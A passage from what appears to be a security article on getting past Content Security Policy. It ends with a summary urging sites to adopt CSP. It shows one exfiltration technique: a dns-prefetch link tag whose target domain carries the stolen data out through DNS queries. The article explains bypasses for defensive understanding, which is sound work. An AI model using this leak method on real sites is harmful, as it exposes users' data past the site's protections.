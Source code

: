 Currently, there is no way to restrict it from transmitting data, but in the future, there may be a rule called [webrtc](https://w3c.github.io/webappsec-csp/#directive-webrtc).

The third method is DNS prefetch: `<link rel="dns-prefetch" href="https://data.example.com">`. By treating the data you want to send as part of the domain, you can transmit it through DNS queries.

There used to be a rule called [prefetch-src](https://bugs.chromium.org/p/chromium/issues/detail?id=801561), but the specification changed, and now these prefetch series should follow `default-src`. Chrome only has this feature starting from version 112: [Resoure Hint "Least Restrictive" CSP](https://chromestatus.com/feature/5553640629075968).

In conclusion, although `default-src` seems to block all external connections, it is not the case. There are still some magical ways to transmit data. However, perhaps one day when CSP rules become more perfect, it will be possible to achieve a completely leak-proof solution (although it's uncertain when that day will come).

## Summary

In this article, we have seen some common methods to bypass CSP, and it seems that there are quite a few of them.

Moreover, as the number of domains in CSP increases, it becomes more difficult to exclude problematic domains, which adds additional risks. In addition, using third-party services also carries certain risks, such as the aforementioned public CDNs or Google's CSP bypass. These need to be taken into account.

Writing a completely problem-free CSP is actually difficult and requires time to gradually eliminate unsafe practices. However, in this era where many websites don't even have CSP, the old saying still applies: "Let's add CSP first, it's okay if there are issues, we can adjust it later."
